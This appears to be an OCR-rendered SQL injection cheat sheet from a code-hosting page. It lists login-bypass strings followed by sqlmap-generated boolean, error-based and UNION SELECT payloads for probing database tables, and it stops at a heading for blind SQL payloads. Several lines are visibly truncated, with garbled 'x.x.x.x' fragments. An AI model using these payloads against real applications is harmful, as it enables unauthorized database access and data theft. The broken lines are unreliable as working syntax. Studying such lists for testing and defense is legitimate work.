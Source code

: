 ' or true--  
") or true--  
') or true--  
' or 'x'='x  
') or ('x')=('x  
')) or (('x'))=(('x  
" or "x"="x  
") or ("x")=("x  
")) or (("x"))=(("x

  
  

## If above queries don't work try with these sqlmap payoads:
#sqlinjection #sqlmap 
  
'.)))("),.  
'ghwshP<'">CZuifw  
)+AND+4287=8913+AND+(7303=7303  
)+AND+8680=8680+AND+(6351=6351  
+AND+4573=5119  
+AND+8680=8680  
')+AND+9284=3986+AND+('ndfW'='ndfW  
')+AND+8680=8680+AND+('juwu'='juwu  
+AND+2138=DBMS\_PIPE.RECEIVE\_MESSAGE(CHR(83)||CHR(x.x.x.x  
')+AND+2138=DBMS\_PIPE.RECEIVE\_MESSAGE(CHR(83)||CHR(x.x.x.x  
(SELECT+3273+FROM(SELECT+COUNT(\*),CONCAT(0x716a6a7671,(SELECT+(ELT(3273=3273,1))),0x716b717071,FLOOR(RAND(0)\*2))x+FROM+INFORMATION\_SCHEMA.PLUGINS+GROUP+BY+x)a)  
(SELECT+CONCAT(0x716a6a7671,(SELECT+(ELT(6967=6967,1))),0x716b717071))  
+AND+4920=(SELECT+UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(x.x.x.x  
)+AND+7244=4397+AND+(3968=3968  
)+AND+6379=6379+AND+(1483=1483  
')+AND+2572=3816+AND+('alWa'='alWa  
')+AND+6379=6379+AND+('mxeB'='mxeB  
)+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+tsVj  
+ORDER+BY+1--+UCdp  
+UNION+ALL+SELECT+NULL--+UzBg  
+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+ISdf  
')+ORDER+BY+8048--+qQkS  
')+UNION+ALL+SELECT+NULL--+TFas  
')+UNION+ALL+SELECT+NULL,NULL--+EZcP  
%'+ORDER+BY+1--+NSgg  
%'+ORDER+BY+7605--+dZkK  
%'+UNION+ALL+SELECT+NULL--+JQPp  
%'+UNION+ALL+SELECT+NULL,NULL--+VtSC  
+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+Lbrh  
' UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6271,IFNULL(CAST(table\_name AS CHAR),0x20),0x7162627671),NULL,NULL FROM INFORMATION\_SCHEMA.TABLES-- sd  
  

## If nothing works try these Blind sql payloads:
#blindsql
  